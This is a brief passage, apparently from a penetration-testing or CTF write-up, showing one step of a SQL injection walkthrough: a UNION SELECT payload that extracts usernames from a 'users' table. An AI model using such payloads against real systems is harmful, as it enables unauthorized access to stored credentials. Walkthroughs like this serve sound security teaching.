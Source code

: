 <figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we got the interesting tables, so now we'll try getting both at once:

```
abcd'union select 1,username,3,4,5,6 from users;-- -
```
